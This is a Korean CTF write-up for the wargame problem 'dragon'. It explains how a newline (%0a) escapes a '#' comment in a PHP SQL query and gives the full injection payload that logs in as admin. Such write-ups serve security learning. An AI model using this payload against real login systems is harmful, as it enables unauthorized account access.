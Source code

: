 
# [20] dragon

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdVPRAK%2FbtrnP7hVFzh%2FQKtIyj2XkRhpCJhBS1Kuv1%2Fimg.png">

## 풀이
주어진 쿼리문을 보겠다.

```php
$query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
```

첫번째 조건절 뒤에 #을 넣어서 뒷부분을 날려버리고 있다.

<br>

스터디 초반에 로그인 로직 5가지 유형을 개발할 때, 조건절이 개행 처리된 쿼리에는 주석을 주입해도 원하는대로 처리되지 않음을 경험했었다.

이 점에 착안해서 개행 문자를 이용해주면 될 것 같다.

<br>

즉, 쿼리문을 다음과 같이 변조할 생각이다.


```php
$query = "select id from prob_dragon where id='guest'# and pw='
	    and pw='' or id='admin'";
```

<br>

위 쿼리문은 다음 쿼리문과 동일하게 동작한다.

```php
$query = "select id from prob_dragon where (id='guest' and pw='') or id='admin'";
```

따라서 정상적으로 admin 계정을 fetch 해오게 된다.

<br> 

개행 문자인 \n 은 url encoding을 거쳐 **%0a**로 입력해준다.

<br>

입력할 답은 다음과 같다.

```
%0a and pw='' or id='admin
```

## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcVwX0y%2FbtrnPk3bf4W%2FN4kYfakdGJ6KpZu0buH111%2Fimg.png">